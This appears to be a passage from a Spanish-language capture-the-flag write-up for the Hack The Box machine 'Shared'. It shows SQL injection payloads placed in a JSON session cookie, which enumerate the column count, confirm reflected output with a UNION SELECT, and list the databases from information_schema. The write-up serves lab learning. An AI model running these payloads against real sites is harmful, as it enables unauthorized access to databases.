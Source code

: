 <img src="/writeups/assets/img/Shared-htb/4.png" alt="">

Se me asigna una nueva cookie de sesión

```null
Cookie: custom_cart=%7B%2253GG2EF8%22%3A%221%22%7D
```

Intercepto la petición con ```BurpSuite``` para enumerar el número de columnas. En total son 3. En caso contrario aparece un error de ```Not Found```

```null
Cookie: custom_cart={"53GG2EF8' order by 3-- -":"1"}; 
```

Aplico una selección y mi input se ve reflejado en el output

```null
Cookie: custom_cart={"' union select 1,2,3-- -":"1"}; 
```

<img src="/writeups/assets/img/Shared-htb/5.png" alt="">

Listo las bases de datos

```null
Cookie: custom_cart={"' union select 1,group_concat(schema_name),3 from information_schema.schemata-- -":"1"};
```

<img src="/writeups/assets/img/Shared-htb/6.png" alt="">

